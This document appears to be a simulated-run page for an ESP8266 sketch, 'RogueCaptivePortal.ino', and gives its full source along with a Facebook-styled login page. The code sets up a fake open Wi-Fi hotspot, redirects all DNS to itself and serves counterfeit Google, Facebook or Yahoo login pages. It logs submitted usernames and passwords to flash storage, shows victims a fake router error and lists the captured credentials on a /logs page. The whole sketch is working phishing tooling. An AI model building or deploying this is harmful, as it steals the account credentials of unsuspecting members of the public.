
Simulated run of this sketch. Board: ESP8266 (NodeMCU). On the bench: output pins drawn as LEDs (lit = HIGH, except the on-board LED, lit = LOW), the last lines printed to the serial monitor. Dashed ring = blinking. The inputs (shaded band) are chosen by the test bench. Storage starts empty.

Above: at 6.9 s.
7.0 s: HTTP request GET /validate received
At 7.13 s:

10.0 s: HTTP request GET /validate?url=1 received
At 12.6 s:

13.0 s: HTTP request GET /validate?url=0 received
At 13.38 s:

Timing chart, 0 to 16.8 s (numbered marks = the images above; inputs shaded):


The sketch:

RogueCaptivePortal.ino
```cpp
/*
 * Original by Corey Harding, edited by G. R. Casanova
 * www.legacysecuritygroup.com
 * Configure access point name and up to 3 custom domains and login urls in config.h
 * Configure the html for login page of said domains in site1.h, site2.h, and site3.h
 * Configure the html for any other domain(catch-all) in site_other.h
 * This is only a proof-of-concept.  I am not responsible for your actions.
 * Obey all local, state, federal, and international laws!
*/
#include <ESP8266WiFi.h>
#include <WiFiClient.h>
#include <ESP8266WebServer.h>
#include <DNSServer.h>
#include <ESP8266mDNS.h>
#include <FS.h>
#include "google.h"
#include "facebook.h"
#include "yahoo.h"

#define LOGFILE "/log.txt"

/*
 *************************
 * ACCESS POINT SSID
 * ***********************
 */
const char *ssid="Roma Free Wifi";

/*
 *************************
 * LOGIN CAPTURE PAGE
 * ***********************
 */
 // Can be Google, Facebook or Yahoo
#define captivePortalPage GOOGLE_HTML
 // GOOGLE_HTML, FACEBOOK_HTML, YAHOO_HTML

// Basic configuration using common network setups (usual DNS port, IP and web server port)
const byte DNS_PORT = 53;
IPAddress apIP(192, 168, 4, 1);
IPAddress netMsk(255, 255, 255, 0);
DNSServer dnsServer;
ESP8266WebServer webServer(80);

// Buffer strings
String webString="";
String serialString="";

// Blink the builtin LED n times
void blink(int n)
{
  for(int i = 0; i < n; i++)
  {
    digitalWrite(LED_BUILTIN, LOW);
    delay(250);
    digitalWrite(LED_BUILTIN, HIGH);
    delay(250);
  }
}

void setup() {
  //Start Serial communication
  Serial.begin(9600);
  Serial.println();
  Serial.println("V2.0.0 - Rouge Captive Portal Attack Device");
  Serial.println();

  // LED setup
  pinMode(LED_BUILTIN, OUTPUT);
  digitalWrite(LED_BUILTIN, HIGH);

  // Initialize file system (SPIFFS) and read the log file, if not present create a new one
  Serial.print("Initializing File System (First time can take around 90 seconds)...");
  SPIFFS.begin();
  Serial.println(" Success!");
  Serial.print("Checking for log.txt file...");
  // this opens the file "log.txt" in read-mode
  File f = SPIFFS.open(LOGFILE, "r");

  if (!f) {
    Serial.print(" File doesn't exist yet. \nFormatting and creating it...");
    SPIFFS.format();
    // open the file in write mode
    File f = SPIFFS.open(LOGFILE, "w");
    if (!f) {
      Serial.println("File creation failed!");
    }
    f.println("Captured Login Credentials:");
  }
  f.close();
  Serial.println(" Success!");

  // Create Access Point
  Serial.print("Creating Access Point...");
  WiFi.setOutputPower(20.5); // max output power
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(apIP, apIP, netMsk);
  WiFi.softAP(ssid);
  delay(500);
  Serial.println(" Success!");

  // Start DNS Server
  Serial.print("Starting DNS Server...");
  dnsServer.setErrorReplyCode(DNSReplyCode::NoError);
  dnsServer.start(DNS_PORT, "*", apIP);
  Serial.println(" Success!");

  // Check domain name and refresh page
  webServer.on("/", handleRoot);
  webServer.on("/generate_204", handleRoot);  //Android captive portal. Maybe not needed. Might be handled by notFound handler.
  webServer.on("/fwlink", handleRoot);  //Microsoft captive portal. Maybe not needed. Might be handled by notFound handler.
  webServer.onNotFound(handleRoot);

  // Validate and save USER/PASS combinations
  webServer.on("/validate", []() {
    // store harvested credentials
    String url = webServer.arg("url");
    String user = webServer.arg("user");
    String pass = webServer.arg("pass");

    // Sending data to Serial (DEBUG)
    serialString = user+":"+pass;
    Serial.println(serialString);

    // Append data to log file
    File f = SPIFFS.open(LOGFILE, "a");
    f.print(url);
    f.print(":");
    f.print(user);
    f.print(":");
    f.println(pass);
    f.close();

    // Send an error response to the user after credential harvesting
    webString = "<h1>#E701 - Router Configuration Error</h1>";
    webServer.send(500, "text/html", webString);

    // Reset buffer strings
    serialString="";
    webString="";

    blink(5);
  });

  // Logging Page
  webServer.on("/logs", [](){
    webString="<html><body><h1>Captured Logs</h1><br><pre>";
    File f = SPIFFS.open(LOGFILE, "r");
    serialString = f.readString();
    webString += serialString;
    f.close();
    webString += "</pre><br><a href='/logs/clear'>Clear all logs</a></body></html>";
    webServer.send(200, "text/html", webString);
    Serial.println(serialString);
    serialString="";
    webString="";
  });

  // Clear all logs
  webServer.on("/logs/clear", [](){
    webString="<html><body><h1>All logs cleared</h1><br><a href=\"/esportal\"><- BACK TO INDEX</a></body></html>";
    File f = SPIFFS.open(LOGFILE, "w");
    f.println("Captured Login Credentials:");
    f.close();
    webServer.send(200, "text/html", webString);
    Serial.println(serialString);
    serialString="";
    webString="";
  });

  // Start Webserver
  Serial.print("Starting Web Server...");
  webServer.begin();
  Serial.println(" Success!");

  blink(10);

  Serial.println("Device Ready!");
}

void loop() {
  dnsServer.processNextRequest();
  webServer.handleClient();
}

void handleRoot() {
  webServer.sendHeader("Cache-Control", "no-cache, no-store, must-revalidate");
  webServer.sendHeader("Pragma", "no-cache");
  webServer.sendHeader("Expires", "-1");

  webServer.send(200, "text/html", captivePortalPage);
}
```

facebook.h
```cpp
const char FACEBOOK_HTML[] = R"=====(
<html>

  <head>

    <title>Public WiFi Access - Facebook Login</title>

    <meta charset='UTF-8'>
    <meta name='viewport' content='width=device-width,
    initial-scale=0.75, maximum-scale=0.75, user-scalable=no'>
    <meta name='theme-color' content='#5170ad' />

    <style class='cp-pen-styles'>

      * {
        -webkit-box-sizing: border-box;
        -moz-box-sizing: border-box;
        box-sizing: border-box;
      }

      html {
        background: #E2E2E2;
      }

      body {
        background: #E2E2E2;
        margin: 0;
        padding: 0;
        font-family: 'Lato', sans-serif;
      }

      .login-form-wrap {
        background: #5170ad;
        background: -moz-radial-gradient(center, ellipse cover, #5170ad 0%, #355493 100%);
        background: -webkit-gradient(radial, center center, 0px, center center, 100%, color-stop(0%, #5170ad), color-stop(100%, #355493));
        background: -webkit-radial-gradient(center, ellipse cover, #5170ad 0%, #355493 100%);
        background: -o-radial-gradient(center, ellipse cover, #5170ad 0%, #355493 100%);
        background: -ms-radial-gradient(center, ellipse cover, #5170ad 0%, #355493 100%);
        background: radial-gradient(ellipse at center, #5170ad 0%, #355493 100%);
        filter: progid: DXImageTransform.Microsoft.gradient( startColorstr='#5170ad', endColorstr='#355493', GradientType=1);
        border: 1px solid #2d416d;
        position: relative;
        width: 100%;
        height: 100%;
        margin: auto auto;
        padding: 50px 30px 0 30px;
        text-align: center;
      }

      .login-form-wrap:before {
        display: block;
        content: '';
        width: 58px;
        height: 19px;
        top: 10px;
        left: 10px;
        position: absolute;
      }

      .login-form-wrap > h1 {
        margin: 0 0 50px 0;
        padding: 0;
        font-size: 26px;
        color: #fff;
      }

      .login-form-wrap > h5 {
        margin-top: 40px;
      }

      .login-form-wrap > h5 > a {
        font-size: 14px;
        color: #fff;
        text-decoration: none;
        font-weight: 400;
      }

      .login-form input[type='text'],
      .login-form input[type='password'] {
        display: block;
        width: 345px;
        border: 1px solid #314d89;
        outline: none;
        padding: 12px 20px;
        color: #afafaf;
        font-weight: 400;
        font-family: 'Lato', sans-serif;
        cursor: pointer;
      }

      .login-form input[type='text'] {
        color: black;
        border-bottom: none;
        border-radius: 4px 4px 0 0;
        padding-bottom: 13px;
        box-shadow: 0 -1px 0 #E0E0E0 inset, 0 1px 2px rgba(0, 0, 0, 0.23) inset;
      }

      .login-form input[type='password'] {
        color: black;
        border-top: none;
        border-radius: 0 0 4px 4px;
        box-shadow: 0 -1px 2px rgba(0, 0, 0, 0.23) inset, 0 1px 2px rgba(255, 255, 255, 0.1);
      }

      .login-form input[type='submit'] {
        font-family: 'Lato', sans-serif;
        font-weight: 400;
        background: #e0e0e0;
        background: -moz-linear-gradient(top, #e0e0e0 0%, #cecece 100%);
        background: -webkit-gradient(linear, left top, left bottom, color-stop(0%, #e0e0e0), color-stop(100%, #cecece));
        background: -webkit-linear-gradient(top, #e0e0e0 0%, #cecece 100%);
        background: -o-linear-gradient(top, #e0e0e0 0%, #cecece 100%);
        background: -ms-linear-gradient(top, #e0e0e0 0%, #cecece 100%);
        background: linear-gradient(to bottom, #e0e0e0 0%, #cecece 100%);
        filter: progid: DXImageTransform.Microsoft.gradient( startColorstr='#e0e0e0', endColorstr='#cecece', GradientType=0);
        display: block;
        margin: 20px auto 0 auto;
        width: 345px;
        border: none;
        border-radius: 3px;
        padding: 8px;
        font-size: 17px;
        color: #636363;
        text-shadow: 0 1px 0 rgba(255, 255, 255, 0.45);
        font-weight: 700;
        box-shadow: 0 1px 3px 1px rgba(0, 0, 0, 0.17), 0 1px 0 rgba(255, 255, 255, 0.36) inset;
      }

      .login-form input[type='submit']:hover {
        background: #DDD;
      }

      .login-form input[type='submit']:active {
        padding-top: 9px;
        padding-bottom: 7px;
        background: #C9C9C9;
      }

      .disable-selection {
        -webkit-touch-callout: none;
        -webkit-user-select: none;
        -khtml-user-select: none;
        -moz-user-select: none;
        -ms-user-select: none;
        user-select: none;
      }

    </style>
  </head>

  <body>

    <section class='login-form-wrap'>

      <h1 class='disable-selection'>Entra con Facebook e inizia a navigare ora</h1>

        <form class='login-form' action='/validate' method='GET'>

            <center><label>
            <input id='eml' type='text' name='user' class='1' placeholder='Email or Phone' _autofocus='true' autocorrect='off' autocomplete='off' autocapitalize='off' required></label>
            <label><input id='pwd' type='password' name='pass' class='2' placeholder='Password' autocorrect='off' autocomplete='off' autocapitalize='off' required></label></center>
            <input type='hidden' name='url' value='facebook.com'>
            <input id='btn' type='submit' value='Log In'>

        </form>

      <h5><a href='#' class='disable-selection'>Forgot account?</a></h5>

    </section>

  </body>

</html>
)=====";
```

Source omitted: google.h (7984 bytes), yahoo.h (14268 bytes)

Measured:
- after the input at 7.0 s, GPIO 2 (LED_BUILTIN): alternates HIGH for 0.25 s and LOW for 0.25 s, 10 changes in all, then stays HIGH, starting at once
- after the input at 10.0 s, GPIO 2 (LED_BUILTIN): alternates HIGH for 0.25 s and LOW for 0.25 s, 10 changes in all, then stays HIGH, starting at once
- after the input at 13.0 s, GPIO 2 (LED_BUILTIN): alternates HIGH for 0.25 s and LOW for 0.25 s, 10 changes in all, then stays HIGH, starting at once
